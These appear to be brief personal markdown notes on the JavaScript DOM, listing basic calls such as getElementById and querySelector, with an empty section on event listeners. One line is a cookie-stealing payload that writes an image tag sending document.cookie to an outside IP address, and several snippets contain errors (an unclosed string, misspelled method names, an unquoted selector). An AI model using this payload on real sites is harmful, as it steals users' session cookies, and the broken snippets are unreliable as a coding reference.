 # Document Object Model (DOM)

### Basics
> console.log("Hello World!);
>
> document.cookie
>
> document.getElementById('1');
> document.getElementByTagName('div');
> document.getElementByClassName('list-items');
> document.querySelector(#main-heading);
> document.querySelectorAll('div');
> 
> document.write('something');
> document.write('<img src="http://10.10.14.13/?'+document.cookie+'">');
> 

### Event Listeners 
>
> 
